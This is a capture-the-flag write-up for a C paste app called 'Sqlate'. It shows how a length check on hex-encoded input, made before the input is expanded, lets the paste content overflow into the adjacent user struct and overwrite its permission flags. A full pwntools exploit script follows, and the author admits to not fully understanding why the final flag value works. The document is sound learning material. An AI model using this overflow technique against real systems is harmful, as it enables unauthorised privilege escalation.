

# Sqlate


## Description
World‘s most secure paste app.

## Solution
We get the src code for the app. 
The goal is to trigger the function `action_sys` which will print the flag. 
```
void action_sys() {
    system("/usr/bin/cat flag");
}
```
Checking the programs menu we can see that there is a permission check before allowing the call to this function.
```
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```
The function `check_permissions` checks the current user flag against the perms provided in the  call.  (Added some debug printf's, to see what the current perms are)
```
bool check_permissions(const int perms) {
    printf("Current Perms: %ld\n", current_user.flags);
    printf("Perms: %d\n", perms);
    printf("Current Userid: %d\n", current_user.userId);
    if ((current_user.flags & perms) != perms) {
        printf("You don't have permissions to perform this action!\n");
        if (current_user.userId == -1) {
            printf("You might need to login to unlock this.\n");
        }
        return false;
    }
    return true;
}
```
The intended way of the program is to login as admin with the randomly generated admin password to get those root privs. But since we have no way of guessing or dumping this admin password we need to find a different way to modify the privs. This leaves us with 4 functions. 
* action_create --> Creates an entry in the sqlite db
* action_update --> Updates an entry in the sqlite db
* action_info --> Shows a specific entry
* action_list --> Lists all entries

The create action just adds a new entry to the sqlite db. Even if we could somehow get an sqli it woudn't really help us much, since only the entries are managed there and not the users or permissions. 

The update code on the other hand looks interesting. Besides selecting which field (Language/Content) of the entry we want to edit we can also decide in what encoding the content should be stored.
```
printf(
    "Which modifier?\n"
    "1) None\n"
    "2) Hex\n"
    "3) Base64\n"
    "\n"
    ">"
);
```
For every encoding there is a different length check to prevent buffer overflows. Small issue with that, the length check for the hex encoding has a bug. 
```
if (c == '3') {
    char* temp = base64_encode(line_buffer);
    if (strlen(temp) > 255) err(EXIT_FAILURE, "Attempted to overflow!");
    strcpy(line_buffer, temp);
    free(temp);
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```
The line_buffer length is checked before its converted to HEX, therefore we can write a total of 192*2=384 bytes. But our buffer for the content only has a size of 256 bytes. 
```
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```
Luckily for us the user struct of the current_user is created just below the paste struct ion the buffer. Therefore if we overwrite the content in the paste struct we can write into the current_user, which also stores the users permission flags. 
```
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
Therefore we can control the perms the user has.
Here is the part where im not entirely sure why my exploit works. Since I did overwrite the perms flag with the default paste content terminator A0. Which results in the int perms of 16688 where the root perms should be int 256. But somehow the check_permissions still approves of my rights and gives me the flag.

 
exploit.py
```
from pwn import *

binary = './vuln'
context.binary = binary
# Local debugging
#p = gdb.debug(binary, '''
#    continue
#''')
p = remote('sqlate.chal.irisc.tf', 10000)  # Connect to the remote CTF instance

def send_menu_choice(choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())

def create_paste(title, language, content):
    send_menu_choice(1)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)
    p.recvuntil(b"Enter Language: ")
    p.sendline(language)
    p.recvuntil(b"Enter Content: ")
    p.sendline(content)

def update_paste(title, content, modifier):
    send_menu_choice(2)  
    p.recvuntil(b">")   
    p.sendline(b"2")   
    p.recvuntil(b">")   
    p.sendline(str(modifier).encode()) 
    p.recvuntil(b"Enter content: ")
    p.sendline(content)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)  

def list_all():
    send_menu_choice(4)


raw_payload_D = b"D" * 146  

log.info("Creating initial paste...")
create_paste(b"4", b"4", b"D")

log.info("Updating paste with malicious payload...")
update_paste(b"4", raw_payload_D, 2)
list_all()

send_menu_choice(7)
p.interactive()
```

---
**Dombusters**: _Writeup written by [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_
